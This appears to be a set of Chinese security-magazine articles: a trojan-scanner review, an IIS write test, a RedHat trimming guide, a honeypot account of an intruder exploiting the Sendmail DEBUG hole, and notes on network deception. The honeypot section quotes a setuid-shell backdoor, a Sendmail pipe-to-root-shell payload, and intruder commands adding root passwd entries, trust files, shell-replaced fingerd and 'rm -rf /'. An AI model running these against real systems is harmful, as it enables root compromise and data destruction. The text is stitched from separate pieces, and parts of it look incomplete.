清除 Rootkit 是一件复杂的事情。UNIX 系统感染上 Rootkit 后，往往最直接有效的方法就是重新安装系统或是恢复备份系统。这对某些具有重要程序或文件的 Unix 用户来说，不得不说是灾难性的事情。对 Windows 用户来说，只要清除掉感染了 Rootkit 的文件，就可以使系统恢复正常了。最后推荐大家多加强安全意识，防火墙与病毒查杀软件一定要常更新哟，系统补丁与设置也要到位，只有安全的系统才可以将 Rootkit 拒于家门之外。

# Amity Ghostbusters

## 轻松保护你的系统


在这个黑客与木马流行的年代，身在网络大潮中的你是否常常为自己系统安全担心呢？别急，我在这里向大家介绍一个专业级别的特洛伊木马检测和系统安全工具——Amity Ghostbusters。该软件不仅能清除已知木马，也能发现部分未知木马，自带的应用程序网络访问管理功能，让用户可以设置应用程序的网络访问规则，切断未知木马的通信。系统自带多个安全工具，用于用户察看和管理系统信息。

Amity Ghostbusters 功能强大，使用却非常简单，很容易上手，特别适合新手使用！大家可以在 http://www1.skycn.com/soft/5649.html 下载它的 4.38 最新版本。

下面我们就来介绍它的强大功能吧。首先下载安装，进入一个非常明快的界面。点击左边 `scan target → concise target`，在右边图形可以显示对系统各种不同的扫描。例如：`my computer`（我的电脑）、`my documents`（我的文件夹），还可以对 CD、硬盘（`hard disk`）和软盘（`floppy disk`）等地方进行扫描。

我们可以看到图的上面有 4 个小图标，选择要扫描的盘，点击软件上面三角图形开始扫描。扫描结束后可以查看扫描结果，在 `scan target → disk target` 会缩小扫描范围到硬盘，你可以选择自己所需要的盘进行扫描。如图 1 所示。


图 1

下面笔者测试了几个流行的木马：系统木马（`NTRootkit`）、dll 线程插入木马魔鬼 6 号（`devildor6`）、灰鸽子 2004（反弹木马）、飘叶追踪（http 隧道），4 个木马进行压缩、加壳后，仍然可以被查杀！功能很强大，如图 2 所示。


图 2

在 `scan target → folder target` 会进一步缩小扫描范围到单独的文件，这样可以对 QQ，或者网络下载的一些程序进行单独扫描，如图 3 所示。


图 3

在 `sys tools → IE setting fix` 下可以保护自己的 IE 不被恶意网页修改，如图 4 所示。


图 4

在 `sys tools → share management` 可以查看自己共享情况，在 `sys tools → task management` 可以查看软件的进程、网络连接状态，起到了一定的反黑客作用。在 `config` 里 `options`（设置）可以保持默认原始状态。`rules editor` 可以自己添加危险木马程序，不过最主要还是 `update`（更新软件）。

以上就是 Amity Ghostbusters 的一些主要功能，是不是很简单呢？如果配合天网防火墙使用，一个对内，一个对外，绝配啊！效果绝不亚于金山、KV2004、江民等国内的大杀毒软件！还犹豫什么，快点 down 一个下来试试吧。

# 测试 IIS 写权限

测试一个目录对于 Web 用户是否具有写权限，采用如下方法：telnet 到服务器的 Web 端口（80）并发送一个如下请求：

```text
PUT /dir/my_file.txt HTTP/1.1
Host: iis-server
```

这时服务器会返回一个 `100`（继续）的信息：

```text
HTTP/1.1 100 Continue
Server: Microsoft-IIS/5.0
Date: Thu, 28 Feb 2002 15:56:00 GMT
```

说明可写。

# 自己动手裁减 RedHat 9.0

刘流：前段时间绿盟上来强人发帖询问最小的 RedHat 该如何裁减，一时间无数牛人发帖讨论。在将 RedHat 的基本网络功能保留的情况下，如何才能打造出一个最精简而又能满足大部分实际使用的系统呢？或许很多网络管理员都关心这个问题，如果你正好也有这样的想法的话，请看此文。

**难度等级：** 中

**前置知识：** RedHat 基本操作

文/图 李志明

笔者在做一个防火墙项目时，硬件采用的是一款工控机，128M DOM，软件系统用 RedHat 9.0 + Apache + Iptables + PHP + MySQL + Ulogd，因此要求对 RedHat 9.0 进行裁减。经过艰苦的测试和调试，终于把 RedHat 9.0 裁减到 60 多兆，完全正常地满足了我的需要。下面我就把自己经历的过程介绍给大家，以资共飨与切磋。

## 编译内核和安装相关软件

所需内核和相关软件如下，大家如果有兴趣的话可以一起来操作，这些东西网上都有的。

- `kernel-2.4.22.tar.gz`
- `ebtables-brnf-3_vs_2.4.22.diff.gz`（内核补丁包，支持网桥功能）
- `mysql-4.0.12.tar.gz`
- `php-4.3.1.tar.gz`
- `Apache-1.3.27.tar.gz`
- `ulogd-1.00.tar.gz`

再来编译内核，老生常谈了，这里就不再多说，大家一起来：

```text
tar zxvf kernel-2.4.22.tar.gz
gzip -d ebtables-brnf-3_vs_2.4.22.diff.gz
patch -p1 < ebtables-brnf-3_vs_2.4.22.diff
mrproper
make xconfig
```

注意：配置 netfilter 即 network 选项，配置 ebtables 即 802.1d，配置网卡驱动。

```text
make dep
make clean
make bzImage
make modules
make modules_install
make install
```

再安装 MySQL、PHP、Apache：

软件包解压缩（假设压缩包在 `/root` 下）

```text
tar zxvf mysql-4.0.12.tar.gz
tar zxvf php-4.3.1.tar.gz
tar zxvf Apache-1.3.27.tar.gz
```

## 安装 MySQL

```text
cd mysql-4.0.12
./configure --prefix=/home/mysql
make
make install
scripts/mysql_install_db
groupadd mysql
useradd -g mysql mysql
chown -R root /home/mysql
chown -R mysql /home/mysql/var
chgrp -R mysql /home/mysql
chgrp -R root /home/mysql/bin
```

## 安装 PHP4

```text
cd ../apache-1.3.27
./configure --prefix=/home/httpd
cd ../php-4.3.1
./configure --with-mysql=/home/mysql --with-apache=/root/apache-1.3.27
make
make install
```

## 安装 Apache

```text
cd ../apache-1.3.27
./configure --prefix=/home/httpd --activate-module=src/modules/php4/libphp4.a
make
make install
cp ../php-4.3.1/php.ini-dist /usr/local/lib/php.ini
```

在 `/home/httpd/conf/httpd.conf` 文件中加入：

```text
AddType application/x-httpd-php .php .php3
AddType application/x-httpd-php-source .phps
```

## 制作启动 DOM 盘（或硬盘）

把 DOM 盘（或另外一块硬盘）插入 IDE 接口上（与宿主硬盘不同的 IDE 接口），执行下列步骤：

- `fdisk -l` 显示 DOM 盘的硬件符号（假设为 `/dev/hdc`）。
- `fdisk /dev/hdc` 对 `/dev/hdc` 进行分区（按提示选择默认值，把整个盘分为 Linux 分区，将产生一个 `/dev/hdc1` 的 Linux 分区）。
- `mke2fs /dev/hdc1` 对 `/dev/hdc1` 创建根文件系统。
- `mount /dev/hdc1 /mnt` 把 `/dev/hdc1` 挂到 `/mnt` 上。
- `cd /mnt`。
- `mkdir boot` 建立 boot 目录。
- 拷贝新编译的内核文件 `initrd-2.4.22.img`、`vmlinuz-2.4.22` 到 `/boot` 下。
- 拷贝宿主机上 `/boot` 下 grub 文件夹及所有文件到 `/mnt/boot` 下。
- 编辑 `/mnt/boot/grub/grub.conf` 如下。

```text
splashimage=(hd0,0)/boot/grub/splash.xpm.gz
title Red Hat Linux(2.4.22)
    root(hd0,0)
    kernel /boot/vmlinuz-2.4.22 ro root=/dev/hda1 init=/sbin/init
    initrd /boot/initrd-2.4.22.img
```

安装 grub，具体操作如下：

在 root 用户模式下键入 `grub`

```text
grub> root(hd1,1)
grub> setup(hd1)
grub> quit
```

经过以上步骤，就建立了一个可引导的 Linux 2.4.22 的系统盘了，但是光引导系统还不够，下面就开始移植应用软件。我所做的裁减比较粗，各位高手完全可以再进一步裁减。

## 裁减应用程序

一个根文件系统必须包括支持完整 Linux 系统的全部东西，因此，它至少应包括以下几项：

- 基本文件系统结构。
- 至少包含有目录：`/dev`、`/proc`、`/bin`、`/etc`、`/lib`、`/usr`、`/tmp`、`/sbin` 等。
- 最基本的应用程序，如 `sh`、`ls`、`cp`、`mv` 等。
- 最低限度的配置文件，如 `rc`、`inittab`、`fstab` 等。
- 设备：`/dev/hd*`、`/dev/tty*`、`/dev/fd0` 等。
- 基本程序运行所需的库函数。

首先需要创建根文件系统，在前面创建引导盘时用 `mke2fs` 已经创建了根文件系统，所以我们现在可以直接进行下一步骤：创建目录：

```text
cd /mnt
mkdir /bin /sbin /lib /usr /usr/sbin /usr/bin /proc /tmp /var /dev /etc /mnt /home
chmod 777 /mnt/tmp
```

再拷贝一些最基本的应用程序到各个相关的目录下，如：`/bin` 下的 `mount bash login kill hostname rm mv umount`，`/sbin` 下的 `init mingetty reboot route shutdown runlevel consoletype agetty iptables hwclock ifconfig`，`/etc` 下的 `passwd shadow cron* rc.d/* security/* sysconfig/* pam.d/*`，`/dev` 下的 `console hda hda1 hdc hdc1 null shm tty tty0 tty1 tty2 tty3 tty4 initctl pts`，`/home` 下的 Apache 和 MySQL 等。具体文件清单可见附文件列表，其中有子文件夹的包含整个子文件夹中的文件（详细名单请看光盘“杂志相关”栏目）。

再来看看基本的配置文件：

```text
/mnt/etc/rc.sysinit
#!/bin/sh
PATH=/sbin:/bin:/usr/bin:/usr/sbin
export PATH
mount -av
mount -n -t proc none /proc
mount -n -o remount,rw -t proc none /proc
/sbin/hwclock
/bin/hostname myhost（自己定义的主机名）
ifconfig lo 127.0.0.1
```

`inittab` 应该包括如下的程序：

```text
id:5:initdefault:
si::sysinit:/etc/rc.d/rc.sysinit
l0:0:wait:/etc/rc.d/rc0
l1:1:wait:/etc/rc.d/rc1
l2:2:wait:/etc/rc.d/rc2
l3:3:wait:/etc/rc.d/rc3
l4:4:wait:/etc/rc.d/rc4
l5:5:wait:/etc/rc.d/rc5
l6:6:wait:/etc/rc.d/rc6
ca::ctrlaltdel:/sbin/shutdown -t3 -r now
```

`fstab` 应包括：

```text
/dev/hda1  /        ext2    defaults              1 1
none       /dev/pts devpts  gid=5,mode=620        0 0
none       /proc    proc    defaults              0 0
none       /dev/shm tmpfs   defaults              0 0
```

系统及应用程序所用到的库文件也是非常重要的，几乎所有的程序都需要 libc 库。

查看每一个程序使用的函数库，用命令 `ldd`，如图 2 所示。


图 1

输出右边的库都是必须的，有的可能是链接文件。可以通过 `ldd` 命令找出应用程序相关的库文件，有些不能通过 `ldd` 找出的库文件，可以查看附件文件列表。经过上述过程裁减出来的 Linux 包括 Apache、PHP、MySQL、Ulogd、Iptables 等，并支持网桥功能，大约 60 多兆，当然还可以进一步裁减（如用 busybox）。


图 2

以上是我自己使用的剪裁方法，相信各位大虾一定还有比我更好的方法，也一定有很多独到的想法，欢迎大家一起讨论。文中如有不到之处，还请不吝赐教。

# “诱敌深入”

## 实施得力

刘流：网络管理员和入侵者的较量从计算机开始有的那天起就一直没有停息过，但很不幸的是往往都是入侵者占据优势的一方，因为漏洞总是先被公布然后才被修补，所以真正的入侵者总是快管理员一步入侵服务器，而管理员或许不会发现丝毫痕迹，怎么办呢？永远让入侵者猖狂？当然不是！我们诱敌深入，设置好陷阱让入侵者中圈套！

- 难度等级：中
- 适合读者：网络管理员、入侵者
- 前置知识：Sendmail 使用基础、基本入侵技术

文／彭文波

诱敌深入是一门很实用的战术，古今中外，很多军事家、政治家、企业家都对这个战术津津乐道，在网络攻防中也不例外，系统管理员也会用到这样的战术。由于每个网络系统都有安全方面的弱点，如果它的价值很高的话，这些弱点就有可能被入侵者利用。通常，人们会主动去弥补这些漏洞或者缺陷，但系统管理员要是有一手的话，完全可以使入侵者相信系统存在安全缺陷，并将其引向这些错误的资源，也就是“诱敌深入”。当然，这需要在“知己知彼”的基础上才能“百战百胜”。管理员还可以跟踪入侵者的行为，在入侵者之前修补系统可能存在的安全漏洞，这可以形象地比喻为“牵着牛鼻子走路”，下面我们来看看怎么牵。

## 欺骗实例之“诱敌深入”

相信很多朋友都知道，邮件服务器软件 Sendmail 中有个安全漏洞，入侵者如果熟悉邮件服务器软件 Sendmail，他肯定会试探着攻击。据说只要收到被做过手脚的邮件，邮件服务器设备管理员的权限就有可能被篡夺。由于可以通过邮件进行攻击，因此很难用防火墙等防范。尤其是基本上所有版本的 Sendmail 都受到影响，因此我们决定使用邮件服务器软件 Sendmail 作为诱饵。在这个实例中，将会使用到后文所介绍的一些欺骗技术原理，我们先看看实战。

#### 1．关于 sendmail 的一些知识

Sendmail 作为 Linux、BSD 和其它 Unix 平台的“标配”，被广泛使用。作为一个相当普及的软件，再加上众多的相关软件支持，配置 Sendmail 可以算得上系统管理员的基本技能之一。Sendmail 主要的配置文件如下：


图 1

- /etc/sendmail.cf 是 Sendmail 核心配置文件；
- /etc/aliases 是邮件别名文件；
- /etc/mail/relay-domains 用于设定可 RELAY 的域名；
- /etc/mail/access 用来设定处理来信的方式，如 RELAY 等。

在默认情况下，也就是安装 Sendmail 服务器不做任何设置的话，则只能在本机上收发邮件，网络上其他主机不能向该 SMTP 服务器发送邮件。关于 Sendmail 的具体安装配置过程，我们可以通过 http://www.worldhello.net/doc/email_howto/sendmail.html 这个网址得到比较满意的答案。

## 2．序幕

为了给黑客们一个惊喜，我们故意留出了一个 DEBUG 漏洞，放开网后，就等鱼儿上钩了。可惜大概一个多月都没有动静，终于，在我们无意中间接公布了一些系统的消息后，发现系统出现了异常的日志。是在 2004 年 2 月 14 日，可能是由于情人节的落寞想找个地方来发泄，一个黑客发现了我们公布的计算机的漏洞，试图获得我们的 passwd 文件。顺水推舟，我们就给他送了一份人情，很快我们就发现在口令文件 passwd 中增加了一个 UID 为 0 的账号。

这个黑客十分有耐心，手段也很高明。一切在意料之中，我们在机器的 /tmp 目录下又发现了一个程序，而且只要运行这个程序，就会轻易得到用户权限。根据我们自己掌握的情况，这种方法在网上几乎是最受欢迎的了。不过，对于系统用户来说，定期清理 /tmp 下的文件是很正常的，因此即使我们清理这个文件，他也不会感到意外。我们打开在 /tmp 目录下放置的 C 源程序进行了研究：

```c
backdoor/backdoor2.c

#include?
main()
{
    system("cp /bin/sh /tmp/fid");
    system("chown root.root /tmp/fid");
    system("chmod 4755 /tmp/fid");
}
```

很明显，这是一个后门程序，通过这个程序可以获得一些关于根用户的相关属性。这对黑客来说是一个刺激，对我们管理员来说，既然要“诱敌深入”做个测试，就肯定也存在一定的挑战了。而现在我们所要做的，就是引诱一个黑客到一个我们设计好的环境中，记录下来他的所有动作，研究其行为，并提醒他的下一个目标作出防范。

除了在机器上设置记录日志并隐藏这些日志，我们还添加了一些虚假的服务在系统上。由于每天定时产生的日志量非常大，为了有针对地了解攻击动向，我们做了一个 Script 文件用来检索每天的日志。其中，我们主要检查以下几点：

- **1. Telnet/login 服务检查**：如果有黑客试图进入我们的系统，他肯定要尝试很多账户和密码，这样他的一举一动都会被我们记录下来。当然，由于试探的人比较多，五花八门、三教九流，水平太次的人我们是不会给他机会的。然后就是探测 Guest/visitor 账号，黑客们第一个寻找的就是公用账号。这些账号提供了友好的、最容易地获取几乎系统的所有文件的机会，包括 passwd 文件。黑客也可以通过获取 /etc/hosts.equiv 文件或每个用户的 .rhosts 文件来获得机器的信任主机列表。
- **2. FTP 服务检索**：检索的工具会报告每天所有注册和试图注册的用户名。我们伪造了一个 passwd 文件，获取 passwd 的人通常用它来获得系统的正式用户的注册名称，然后攻击、破解其密码。
- **3. SMTP DEBUG**：这个命令提供了两个守候 Sendmail 的漏洞的陷阱。虽然几乎所有的产品出售商都清除了这个漏洞，但偶尔仍有黑客尝试它。这个漏洞允许外部的使用者使用一段以 Root 权限执行的 Script。当有些人尝试这个漏洞时，我就获得了他尝试的 Script 代码。
- **4. Finger**：Finger 提供了大量有用的信息给黑客，如账号名、该账号的最后一次使用时间，以及一些可以用来猜测密码的信息。由于我们的组织不允许提供这些信息给别人，我们置入了一个程序，在 Fingerd 了调用者后拒绝 Finger 请求（当然，我们会避免对来自自己的 Finger 信息的死循环）。报告表明每天有非常多的 Finger 请求，其中大部分是合法的。很多探测器都使用 Finger 命令来查明调用的机器和使用者。

## 3．较量

设置好上面的服务以后，由于我们的目标有点暴露，因此被攻击率比较高。但是，当一个远程使用者取走 passwd 文件时，并不是所有的人都出于恶意的目的。就像我们生活在大千世界，每个人的想法不一定相同一样。从这些日志所记录的事件里面，我们可以发现很多人的不同心理，或善意，或好奇，或者出于成就感。为了给黑客一个提醒，我们设置了一个自动回信，大致内容是：

“如果你到了这个地方，就已经很不错了，如果你希望继续，我们也可以陪你玩玩。如果我们现在正看着你的操作，感觉如何？”

不过，对于高手来说，这招并不一定能奏效。下面的日志，记录了两个邮件发送器的相互对话，整个心理过程可以从中窥探出来。

```text
00:43:10 smtpd[27466]: <--- 220 xxx.xxx.com SMTP
00:43:14 smtpd[27466]: -------> debug
00:43:14 smtpd[27466]: DEBUG attempt
00:43:14 smtpd[27466]: <--- 200 OK
00:43:25 smtpd[27466]: -------> mail from:
00:43:25 smtpd[27466]: <--- 503 Expecting HELO
00:43:34 smtpd[27466]: -------> helo
00:43:34 smtpd[27466]: HELO from
00:43:34 smtpd[27466]: <--- 250 xxx.xxx.com
00:43:42 smtpd[27466]: -------> mail from:?
00:43:42 smtpd[27466]: <--- 250 OK
00:43:59 smtpd[27466]: -------> rcpt to:
00:43:59 smtpd[27466]: <--- 501 Syntax error in recipient name
00:44:44 smtpd[27466]: -------> rcpt to: <|sed -e '1,/?$/d' | /bin/sh ; exit 0|>
00:44:44 smtpd[27466]: shell characters: |sed -e '1,/?$/d' | /bin/sh ; exit 0|
00:44:45 smtpd[27466]: <--- 250 OK
00:44:48 smtpd[27466]: -------> data
00:44:48 smtpd[27466]: <--- 354 Start mail input; end with .
00:45:04 smtpd[27466]: <--- 250 OK
00:45:04 smtpd[27466]: /dev/null sent 48 bytes to upas-security
00:45:08 smtpd[27466]: -------> quit
00:45:08 smtpd[27466]: <--- 221 xxx.xxx.com Terminating
00:45:08 smtpd[27466]: finished.
```

这是我们对 SMTP 过程的日志。这些看来很神秘的日志通常是由程序自动产生的，而在这个例子中，另一端却是由人来键入命令。入侵者尝试的第一个命令是 Debug。当他接收“250 OK”的回应时一定很惊奇。关键的行是“rcpt to:”，在尖括号括起的部分通常是一个邮件接收器的地址。这里它包含了一个命令行。在 DEBUG 模式下，Sendmail 可以用它来以 Root 身份执行一段命令，即：

```text
sed -e '1,/?$/d' | /bin/sh ; exit 0
```

它去掉了邮件头的信息，并使用 Root 身份执行了消息体，这样可以隐藏一些关于他的信息。之后，这个人侵者试探着从我们的服务器上取得一些密码和账户文件，于是我们编造了一份假文件，给他发过去，密文破解后的意思是：“小心玩火自焚！”

## 4．陌路寻踪

这样几天没有动静，估计这个入侵者不死心，在考虑该怎么来修改密码文件了。其实，到这一步，我们完全可以把机器的补丁打上，不过，玩就要玩个痛快。我们也在纳闷，这个人侵者不会知难而退了吧，还是有其他的工作在忙呢？静悄悄地，我们等待着。

星期五的晚上，一个难得的周末。机房监控的终端报告有安全事件，我们的入侵检测系统也同时报告有错误发生。核对日志后，我们发现有人试图使用 Debug 来用 Root 身份执行命令，也就是说，他试图修改我们的密码文件，一切尽在不言中，我不得不佩服这个入侵者的耐心和智慧！

查看日志，我们发现，这次入侵同样是来自上次的连接：hust.wh***.edu。我们开始思考：现在到底是“诱敌深入”，还是“引狼入室”？从感觉来看，这个黑客比我们想像中的要厉害，而且他对现在的系统和系统漏洞相当了解。难道我们要做的就是“拔掉网线”吗？思索中，一切仍然在进行。

出于真实性考虑，我们在采取一些信息迷惑的同时，也公布了一些让黑客进入的诱饵。其中 Ftp 的 passwd 是真实的，另外还生成了一个账号，但它却不可操作。同时，又要让入侵者以为他自己已经改变了 passwd 文件，但却不急于让他进来。因此，还需要给这个入侵者创造一定的条件。于是，我生成了一个临时账号 c，当它被调用时就会给我发信。为了保险起见，我把 c 账号在实际 passwd 文件中改成了 cndes。当我做完后，这个入侵者继续尝试：

```text
00:44 echo "cndes::301:1::/:/bin/sh" >> /etc/passwd
```

他尝试了几个命令，但是没有成功，终于他发现了 cndes 这个账号，于是产生了下面的日志：

```text
00:51 Attempt to login to inet with cndes from hust.whnet.edu
00:51 Attempt to login to inet with cndes from hust.whnet.edu
00:55 echo "cndes::303:1::/tmp:/bin/sh" >> /etc/passwd
00:57 (Added cndes to the real password file.)
00:58 Attempt to login to inet with cndes from hust.whnet.edu
00:58 Attempt to login to inet with cndes from hust.whnet.edu
01:05 echo "36.92.0.205" > /dev/null
01:06 Attempt to login to inet with guest from ric-chex.ai.mit.edu
01:06 echo "36.92.0.205 hust.whnet.edu" >> /etc/hosts
01:08 echo "hust.whnet.edu cndes" >> /tmp/.rhosts
```

这时，这个人侵者的活动又转到了 Ftp 上：

```text
Feb 20 01:36:48 inet ftpd[14437] <--- 220 inet FTP server
(Version 4.265 Fri Feb 2 13:39:38 EST 1990 ready.)
Feb 20 01:36:55 inet ftpd[14437] ---> user cndes\r\n
Feb 20 01:36:55 inet ftpd[14437] <--- 331 Password required for cndes.
Feb 20 01:37:06 inet ftpd[14437] ---> pass?\r\n
Feb 20 01:37:06 inet ftpd[14437] <--- 500 'PASS' command not understood.
Feb 20 01:37:13 inet ftpd[14437] ---> pass?\r\n
Feb 20 01:37:13 inet ftpd[14437] <--- 500 'PASS' command not understood.
Feb 20 01:37:24 inet ftpd[14437] ---> HELP?\r\n
Feb 20 01:37:24 inet ftpd[14437] <--- 214 The following commands are recognized (* =>'s unimplemented)
Feb 20 01:37:24 inet ftpd[14437] <--- 214 Direct comments to ftp-bugs@inet.
Feb 20 01:37:31 inet ftpd[14437] ---> QUIT?\r\n
Feb 20 01:37:31 inet ftpd[14437] <--- 221 Goodbye.
Feb 20 01:37:31 inet ftpd[14437]: Logout, status 0.
Feb 20 01:37:31 inet inetd[116]: ftp[14437] exit, 14437.
Feb 20 01:37:41 inet inetd[116]: finger request from 202.103.0.117 pid 14454
Feb 20 01:37:41 inet inetd[116]: exit, 14454
01:38 finger attempt on cndes
01:48 echo "36.92.0.205 hust.whnet.edu" >> /etc/hosts.equiv
01:53 mv /usr/etc/fingerd /usr/etc/fingerd.b
cp /bin/sh /usr/etc/fingerd
```

看得出，他在这方面是很在行的，幸运的是，他只是破坏了我们模拟机器上的 Finger 而已，并没有将之替换成一个 Shell 程序。我关闭了实际 Fingerd 程序。黑客的活动仍然在继续，摘录的相关日志如下：

```text
01:57 Attempt to login to inet with cndes from hust.whnet.edu
01:58 cp /bin/csh /usr/etc/fingerd
02:07 cp /usr/etc/fingerd.b /usr/etc/fingerd
```

按照他的意思，Fingerd 现在重新开始工作。现在他试图修改 passwd，不过，这永远不会成功，因为 passwd 的输入是 /dev/tty，而不是 Sendmail 所执行的 Shell Script。攻击在继续中：

```text
02:16 Attempt to login to inet with cndes from hust.whnet.edu
02:17 echo "/bin/sh" > /tmp/Shell
chmod 755 /tmp/shell
chmod 755 /tmp/Shell
02:19 chmod 4755 /tmp/shell
02:19 Attempt to login to inet with cndes from hust.whnet.edu
```

```text
02:19 Attempt to login to inet with cndes from hust.whnet.edu
02:21 Attempt to login to inet with cndes from hust.whnet.edu
02:21 Attempt to login to inet with cndes from hust.whnet.edu
```

已经让我们疲惫不堪了，不过，这位入侵者也应该很疲惫了。突然，我发现了一个新的日志：

```text
02:55 rm -rf / &
```

看来他试图删除所有进入的痕迹，估计他很累了。对于这个黑客来说，“没有进行破坏”是说不过去的。根据计算机安全的基本原则，当数据的“完整性、可用性和机密性”中任意一项受到破坏的时候，都应视为安全受到了破坏。在实际情况中，间谍们只是默默地拿走你的数据而绝不做任何破坏，而且尽最大努力地掩盖自己的行动痕迹。这些黑客希望长时间大量地得到珍贵的数据而不被发觉，这其实是最可怕的一种攻击行为。看来，今天碰到的这个黑客确实很职业，不过，他没有意识到我们给他布置的“局”，徒劳地长时间攻击之后，他选择了退出。

我们也很累了，不过，现在最要紧的，就是马上恢复并且马上打上最新的 Sendmail 系统补丁了。说不定这个入侵者过段时间想到办法还会来，到时我们这个“局”是给他设的还是套住了自己，就不太好确定了。

# 网络欺骗方法探幽

从上面的入侵事件中，大家可以看出网络管理员和入侵者在工作上永远是不相容的两个派别，至于工作之外是什么角色就不好说了。实践过程中，我们可以用逆向的思维来猜测入侵者的进攻技术和意图，牵着他的“牛鼻子”按照我们给他设计好的意志进行选择，并且逐步消耗他的资源。这样，就会使入侵者感到要达到期望的目标还是具有一定挑战性的。一般来说，网络欺骗的方法可以从以下几个方面来考虑。

### 1．诱饵：Honey Pot 和分布式 Honey Pot

最早采用的网络欺骗是 Honey Pot 技术。Honey Pot 就像一个诱饵，它将少量的有吸引力的目标（即 Honey Pot）放在让入侵者很容易发现的地方，使之落入圈套。其中采用的技术手段很多，通常包括安插错误信息和隐藏等。前者包括重定向路由、伪造假信息和设置圈套，后者包括隐藏服务、多路径和维护安全状态信息机密性。这样就可以使入侵者将技术、精力集中到 Honey Pot 而不是其他真正有价值的正常系统和资源中，因此这个诱饵必须做得尽量“美味、可口”。

尽管 Honey Pot 技术可以迅速切换，但是，对稍高级的网络入侵，Honey Pot 技术就作用甚微了。因此，分布式 Honey Pot 技术便应运而生。它将欺骗（Honey Pot）散布在网络的正常系统和资源中，利用闲置的服务端口来充当欺骗，从而增大了入侵者遭遇欺骗的可能性。分布式 Honey Pot 技术有两个直接的效果：首先是将欺骗分布到更广范围的 IP 地址和端口空间中；其次是增大了欺骗在整个网络中的百分比，使得欺骗比安全弱点被入侵者扫描器发现的可能性增大。

分布式 Honey Pot 技术也不是十全十美的，它的局限性体现在 3 个方面：一是它对穷尽整个空间搜索的网络扫描无效；二是只提供了相对较低的欺骗质量；三是只相对使整个搜索空间的安全弱点减少。而且，这种技术的一个更为严重的缺陷是它只对远程扫描有效，如果入侵已经部分进入到网络系统中，处于观察（如嗅探）而非主动扫描阶段时，真正的网络服务对入侵者已经透明，那么这种欺骗将失去作用。

扩充空间来显著地增加入侵者的工作量，从而达到安全防护的目的。这样许许多多不同的欺骗，就可以在一台计算机上实现。当入侵者的扫描器访问到网络系统的外部路由器并探测到一欺骗服务时，还可将扫描器所有的网络流量重定向到欺骗上，使得接下来的远程访问变成这个欺骗的继续。

从防护的效果上看，将网络服务放置在所有这些 IP 地址上将毫无疑问地增加入侵者的工作量，因为他们需要决定哪些服务是真正的，哪些服务是伪造的，特别是这样的 4 万个以上 IP 地址上都放置了伪造网络服务的系统。而且，在这种情况下，欺骗服务相对更容易被扫描器发现，通过诱使入侵者上当，增加了入侵时间，从而大量消耗入侵者的资源，使真正的网络服务被探测到的可能性大大减小。

当然，采用这种欺骗时网络流量和服务的重定向必须严格保密，因为一旦暴露就将招致攻击，从而导致入侵者很容易将任一已知有效的服务和这种用于测试入侵者的扫描探测及其响应的欺骗区分开来。

### 3．用户信息迷惑：组织信息欺骗和多重地址转换

面对网络攻击技术的不断提高，一种网络欺骗技术肯定不能做到总是成功，必须不断地提高欺骗质量，才能使入侵者难以将合法服务和欺骗区分开来。多重地址转换和组织信息欺骗能有效地迷惑对手。

如果组织的 DNS 服务器包含了个人系统拥有者及其位置的详细信息，那么你就需要在欺骗的 DNS 列表中具有伪造的拥有者及其位置，否则欺骗很容易被发现。而且，伪造的人和位置也需要有伪造的信息，如薪水、预算和个人记录等等。因此，如果某个组织提供有关个人和系统信息的访问，那么欺骗也必须以某种方式反映出这些信息。

另外，在信息迷惑上，地址的多次转换能将欺骗网络和真实网络分离开来，这样就可利用真实的计算机替换低可信度的欺骗，增加了间接性和隐蔽性。其基本的概念就是重定向代理服务（通过改写代理服务器程序实现），由代理服务进行地址转换，使相同的源和目的地址像真实系统那样被维护在欺骗系统中。

### 4．网络信息迷惑：网络动态配置和网络流量仿真

真实网络是随时间而改变的，如果欺骗是静态的，那么在入侵者长期监视的情况下就会导致欺骗无效。因此，需要动态配置欺骗网络以模拟正常的网络行为，使欺骗网络也像真实网络那样随时间而改变。为使之有效，欺骗特性也应该能尽可能地反映出真实系统的特性。例如，如果办公室的计算机在下班之后关机，那么欺骗计算机也应该在同一时刻关机。其他的如假期、周末和特殊时刻也必须考虑，否则入侵者将很可能发现欺骗。

产生仿真流量的目的是使流量分析不能检测到欺骗。在欺骗系统中产生仿真流量有两种方法：一种方法是采用实时方式或重现方式复制真正的网络流量，这使得欺骗系统与真实系统十分相似，因为所有的访问连接都被复制了；还有一种方法是从远程产生伪造流量，使入侵者可以发现和利用。

在欺骗与被欺骗的过程中，对双方的智力考验要求是很高的。如果在其中某个环节的判断上出了问题，就可能反而陷入别人的圈套。因此，必须对相关的欺骗手法有一定的了解，这样就能在实践操作中做出准确的判断。上面的实际例子就说明了这一点，虽然我们是主动设计的，但是对方如果技术更胜一筹，说不定就真的攻破系统了！希望本文能给广大网管员带来点帮助，谢谢。

导读：Windows 下的日志是记录系统中所有事件的综合体，从接触网络安全第一天的“菜鸟”，到骨灰级的“大虾”，都得非常重视它，因为里面记录了任何和系统交互的事件，稍微不注意就会被管理员找到痕迹，再聪明可就难了。作为网络管理员，分析日志并敏锐地抓住其中的异常情况从而找到系统漏洞和入侵者可算是基本技能了，你学会了吗？

- 难度等级：中
- 适合读者：网络管理员、漏洞利用者
- 前置知识：Windows 下日志基本操作

# 快速掌握：典型入侵日志分析


文／图 天使也一样

如今各式各样的 Windows 漏洞层出不穷，五花八门的入侵工具更是令人眼花缭乱，稍微懂点网络知识的人都可以利用各种入侵工具进行入侵，这可给我们的网管带来了很大的麻烦。虽然经过精心配置的服务器可以抵御大部分入侵，但随着不断新出的漏洞，再高明的网管也不敢保证一台服务器长时间不会被侵入，所以，安全配置服务器并不能永远阻止黑客入侵，而如何检测入侵者行动以保证服务器安全性就在这样的情况下显得非常重要。

日志文件作为微软 Windows 系列操作系统中的一个特殊文件，在安全方面具有无可替代的价值。它每天为我们忠实地记录下系统所发生的一切事件，利用它可以使系统管理员快速对潜在的系统入侵作出记录和预测，但遗憾的是目前绝大多数的人都忽略了它的存在，反而是因为黑客们光临才会使我们想起这个重要的系统日志文件，很有讽刺意味。

在这里我们就不去讲什么日志文件的默认位置、常见备份方法等基本技巧了，这样的东西《黑防》以前讲得很清楚了，大家可以翻看《黑防》以前的杂志学习这些东西，我们今天来看看如何分析常见的日志文件吧！

### 1．FTP 日志分析

FTP 日志和 WWW 日志在默认情况下，每天生成一个日志文件，包含了该日的一切记录，文件名通常为 ex（年份）（月份）（日期），例如 ex040419，就是 2004 年 4 月 19 日产生的日志，用记事本可直接打开，普通的有入侵行为的日志一般是这样的：

```text
#Software: Microsoft Internet Information Services 5.0
（微软 IIS 5.0）
#Version: 1.0 （版本 1.0）
